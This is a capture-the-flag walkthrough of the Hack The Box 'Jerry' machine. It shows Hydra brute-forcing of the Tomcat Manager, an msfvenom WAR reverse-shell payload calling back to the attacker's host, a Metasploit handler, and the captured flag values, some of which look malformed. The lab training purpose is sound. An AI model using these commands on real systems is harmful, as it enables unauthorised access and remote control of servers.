 # Jerry Machine Walkthrough

_Author: Davis Burrill_  
_Difficulty: Easy_  

---

## 🗂 Repository Structure
```
📆 Jerry
 ├ 🗂 nmap
 ┃ ┃ ├ 🕌 jeryy.nmap # Full nmap scan results
 ┃ ┃ ├ 🕌 jerry.gnmap # Greppable nmap output for quick analysis
 ┃ ┃ └ 🕌 jerry.xml # XML nmap output for detailed parsing
 ┃ 🗂 payloads
 ┃ ┃ └ 🕌 JerryExploit.war # WAR file payload for reverse shell
 ┃ 🗂 Screenshots
 ┃ ┃ ├ 🕌 hydra_img # Screenshot of Hydra brute force results
 ┃ ┃ ├ 🕌 shell_img  # Screenshot of Meterpreter shell access
 ┃ ┃ ├ 🕌 WAR_deployment_img  # Screenshot of WAR file deployment
 ┃ ┃ ├ 🕌 WAR_unzip_img  # Screenshot of unzipped WAR file contents
 ┃ ┃ └ 🕌 flag_img # Screenshot of captured flags
 └ 🗂 tmp # Temporary directory for extracted files
```

## **1⃣ Enumeration 🔍**

The first step in tackling the Jerry machine was performing an nmap scan to enumerate open ports and services:

```bash
nmap -sC -sV -Pn -oA jerry 10.10.10.95
```

### Findings:
- **Open Ports:** 8080
- **Services:** Apache Tomcat/Coyote JSP engine 1.1

The scan revealed that port 8080 was open and running a Tomcat server. This indicated the potential for accessing the Tomcat Manager application.

---

## **2⃣ Exploitation 💥**

### **Step 1: Initial Access**
Navigating to the target IP on port 8080 in Firefox:

```url
http://10.10.10.95:8080
```

I explored various links and buttons, eventually landing on the **Manager App** section, located at:

```url
http://10.10.10.95:8080/manager/html
```

### **Step 2: Credential Discovery**
Initial login attempts with default credentials like `admin:admin` failed. Using SecLists, I utilized a dictionary brute force attack to find valid credentials:

```bash
hydra -C ./Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```

![Hydra Screenshot](./Screenshots/hydra_img.png)

**Valid Credentials Found:**
- **Username:** tomcat
- **Password:** s3cret

### **Step 3: Uploading Exploit**
After logging in, I encountered a file upload section for WAR files. Using msfvenom, I created a WAR payload with a reverse shell:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f war -o JerryExploit.war
```
![WAR Deployment Screenshot](./Screenshots/WAR_deployment_img.png)

I uploaded the `JerryExploit.war` file and deployed it. Initially, clicking the deployed payload resulted in a 404 error. I then unzipped the WAR file:

```bash
unzip JerryExploit.war -d tmp
```

![WAR Unzip Screenshot](./Screenshots/WAR_unzip_img.png)

Extracted the JSP file and navigated to:

```url
http://10.10.10.95:8080/tmp/nnqasoswoofs.jsp
```

This triggered the reverse shell.

---

## **3⃣ Privilege Escalation ⬆️**

### **Step 1: Gaining a Meterpreter Shell**
Using Metasploit, I started a multi/handler listener:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.4
set LPORT 9001
exploit -j
```

When the JSP file was accessed, it established a Meterpreter session. I confirmed the current user:

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### **Step 2: Navigating the File System**
Using the shell, I accessed the administrator’s desktop and found the flags:

```bash
shell
cd \users\administrator\desktop\flags
dir
type "2 for the price of 1.txt"
```

![Shell Screenshot](./Screenshots/shell_img.png)

---

## **4⃣ Post-Exploitation & Flags 🏁**

### **Flags Found:**
- **User Flag:** 7004bcsef0f854e0fb401875f26ebd00
- **Root Flag:** 04a8b36e1545a455393d067e772fe90e

![Flag Screenshot](./Screenshots/flag_img.png)

---

## **🔹 Key Takeaways**
- **Vulnerability Used:** Default credentials and deployment of malicious WAR files.
- **Important Techniques Learned:**
  - Using Hydra for credential brute-forcing.
  - Creating Java-based payloads with msfvenom.
  - Deploying and triggering WAR payloads on Tomcat Manager.

---

## **🔗 Links**
- [My Cybersecurity Blog](https://davisburrill.com)
- [Hack The Box](https://www.hackthebox.com)

Happy Hacking! 🚀


